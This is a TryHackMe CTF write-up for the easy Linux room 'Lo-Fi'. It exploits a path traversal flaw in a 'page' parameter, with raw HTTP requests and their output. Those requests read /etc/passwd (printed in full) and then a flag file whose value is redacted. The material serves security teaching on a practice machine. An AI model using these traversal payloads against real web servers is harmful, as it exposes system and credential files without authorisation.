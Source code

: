 ```yaml
---
title: "Lo-Fi"
date: 2025-01-20
image: /assets/img/tryhackme/Lofi/Lofi_image.jpg
description: Writeup of the TryHackMe-CTF Lo-Fi
categories: [Tryhackme, Easy]
tags: [linux, web, file-inclusion]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Lo-Fi</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Want to hear some lo-fi beats, to relax or study to? We've got you covered!</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/r/room/lofi">https://tryhackme.com/r/room/lofi</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution to the CTF challenge Lo-Fi.  

## Challenge
The description gives us two hints what we need to do. 
1. Navigate to the following url http://MACHINE_IP and find the flag in the root of the filesystem.
2. Check out similar content on TryHackMe: <a href="https://tryhackme.com/r/room/filepathtraversal">LFI Path Traversal</a>

This seems to be a Path Traversal vulnerability in the Website. Start up Burpsuite and open the website in the browser.
From here we need to find parameters which we could manipulate.
After simply interacting with the website we can see the usage of the parameter `page` which loads `php` files:

![command execution page](/assets/img/tryhackme/Lofi/thm_lofi_1.jpg){: width="1200" height="195" .w-75 .normal}

Let's try inject the simple payload `../../../../../../../../../../../etc/passwd` in the request:
```http
GET /?page=../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 10.10.39.143
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
The result confirm the payload is working:
```html
      <!-- Blog Post -->
        <div class="card mb-4">
          <div class="card-body">
            root:x:0:0:root:/root:/bin/bash
            daemon:x:1:1:daemon:/usr/sbin:/bin/sh
            bin:x:2:2:bin:/bin:/bin/sh
            sys:x:3:3:sys:/dev:/bin/sh
            sync:x:4:65534:sync:/bin:/bin/sync
            games:x:5:60:games:/usr/games:/bin/sh
            man:x:6:12:man:/var/cache/man:/bin/sh
            lp:x:7:7:lp:/var/spool/lpd:/bin/sh
            mail:x:8:8:mail:/var/mail:/bin/sh
            news:x:9:9:news:/var/spool/news:/bin/sh
            uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
            proxy:x:13:13:proxy:/bin:/bin/sh
            www-data:x:33:33:www-data:/var/www:/bin/sh
            backup:x:34:34:backup:/var/backups:/bin/sh
            list:x:38:38:Mailing List Manager:/var/list:/bin/sh
            irc:x:39:39:ircd:/var/run/ircd:/bin/sh
            gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
            nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
            libuuid:x:100:101::/var/lib/libuuid:/bin/sh
          </div>
        </div>
```
From here we can try to search the flag:
```http
GET /?page=../../../../../../../../../../../flag.txt HTTP/1.1
Host: 10.10.39.143
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
found the flag:
```html
      <!-- Blog Post -->
        <div class="card mb-4">
          <div class="card-body">
            flag{*********** removed ***********}
          </div>
        </div>
```
solved! :)
